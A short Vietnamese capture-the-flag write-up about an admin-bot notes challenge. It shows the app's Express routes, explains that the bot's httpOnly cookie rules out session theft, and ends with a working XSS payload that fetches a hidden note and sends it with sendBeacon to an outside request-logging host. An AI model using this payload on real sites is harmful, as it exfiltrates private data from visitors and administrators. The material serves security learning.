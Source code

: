 # task
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/9e208b49-bfd9-4263-ae09-c9a9f32f5edc)

# solution
```
router.get("/note/:uuid", async (req, res) => {
    try {
        const { uuid } = req.params;
        const message = await db.getNote(uuid);

        if (!message) return res.status(404).send({
            error: "Can't find this note!",
        });

        if (message.hidden && !isAdmin(req))
            return res.status(401).send({
                error: "Sorry, this note has been hidden by admin!",
            });

        return res.status(200).send({
            message: message.message,
        });
    } catch (error) {
        console.error(error);
        res.status(500).send({
            error: "Something went wrong!",
        });
    }
});

router.get("/visit/:uuid", async (req, res) => {
    const { uuid } = req.params;
    if (uuid) {
        try {
            await visit(`http://127.0.0.1:1337/notes?uuid=${uuid}`, authenSecret);
            res.status(200).json({ message: 'Bot has been visited' });
        } catch (e) {
            console.log(e);
        }
    } else {
        res.status(400).json({ error: 'Invalid uuid' });
    }
});
```
-Trong đoạn source này thì ta cũng có thể nhìn ra ý tưởng của bài này là sử dụng xss để đọc note của admin thông qua con bot 
-Lúc đầu mình định dùng xss để lấy phiên của con bot cơ nhưng đề ko cho thế ;vv do con bot có thêm thuộc tính httpOnly nên ta không thể lấy cookie của bot bằng xss được  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/1a691503-d96f-4bcd-a7b8-340b428803f8)

*note: trong giải mình ko làm được câu này di mình ngu đặt url của fetch là note?uuid=1 đáng lẽ ra phải gọi api của trang web mới lấy được message 

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/f7ac6a07-b2b4-4ff6-ae47-7b13ef8b8916)

payload:
```
<img src=1 onerror='fetch("/note/1").then(r=>r.text()).then(z=>navigator.sendBeacon("https://01hj46va4def4y9g56wkve0bd300-f6e179feb73b7ed35edf.requestinspector.com", z))'>
```
